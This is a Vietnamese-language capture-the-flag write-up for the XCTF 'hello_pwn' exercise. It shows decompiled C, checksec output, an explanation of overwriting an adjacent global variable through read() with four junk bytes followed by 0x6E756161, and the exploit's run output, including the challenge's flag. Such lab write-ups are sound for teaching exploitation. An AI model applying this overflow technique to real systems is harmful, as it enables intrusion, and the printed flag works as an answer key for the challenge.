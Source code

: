 # XCTF - PWN Exercise - hello_pwn

```c
#include<stdio.h>

__int64 sub_400686()
{
  system("cat flag.txt");
  return 0LL;
}

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  alarm(0x3Cu);
  setbuf(stdout, 0LL);
  puts("~~ welcome to ctf ~~     ");
  puts("lets get helloworld for bof");
  read(0, &unk_601068, 0x10uLL);
  if ( dword_60106C == 0x6E756161 )	// 1853186401
    sub_400686();
  return 0LL;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/0_hello_pwn λ checksec hello_pwn
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/0_hello_pwn/hello_pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Chương trình sẽ nhảy đến hàm đọc flag khi biến `dword_60106C` == 0x6E756161, hàm `read()` đọc giá trị cho biến bắt đầu từ `&unk_601068` nằm dưới `dword_60106C` 4 giá trị => ghi đè 4 giá trị junk sau đó là giá trị ta muốn ghi đè vào biến `dword_60106C` khi đó sẽ thỏa mãn điều kiện và nhảy đến hàm đọc flag.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/0_hello_pwn λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 60829: Done
[*] Switching to interactive mode
~~ welcome to ctf ~~     
lets get helloworld for bof
cyberpeace{bcdfef60eb7d186ce56265e8dba38a43}
[*] Got EOF while reading in interactive
$  
```
